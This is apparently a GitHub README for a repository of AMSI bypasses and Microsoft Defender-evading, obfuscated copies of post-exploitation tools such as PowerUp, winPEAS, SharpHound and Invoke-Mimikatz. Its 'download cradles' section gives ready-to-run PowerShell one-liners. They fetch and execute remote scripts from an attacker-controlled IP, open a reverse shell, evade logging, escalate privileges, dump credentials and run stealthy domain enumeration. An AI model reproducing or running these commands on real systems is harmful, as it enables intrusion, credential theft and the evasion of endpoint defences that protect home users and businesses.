 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## what is this and why is this public

A collection of obfuscated AMSI bypass methods for powershell sessions as well as a collection of custom-obfuscated scripts in case any of the bypass methods get detected (this will happen if they use an actual EDR).

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protection for a significant amount of home users and smaller enterprises which is bad.

These really are just for fun with staying in-memory. I can't really recommend you use these on an engagement.

## bypass methods

I will unprivate soon :)

## MDE-safe scripts

These are all just for defender - I just used defendercheck and made some edits. Anything serious and you're on your own

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

- `Invoke-Mimimkatz` **[NOT YET BYPASSED]**
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.
    - The source VS solution will need to be edited as the assembly blob is signatured pretty heavily. I may also just work on another encoding mechanism to update the script in the future with [this](https://github.com/g4uss47/Invoke-Mimikatz) dope script.

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `Invoke-SessionHunter`
- `PowerView`
- `Invoke-Rubeus`
- obfuscated shell for .net reflected assemblies (empire already has a folder for this but I will make some custom bypasses)
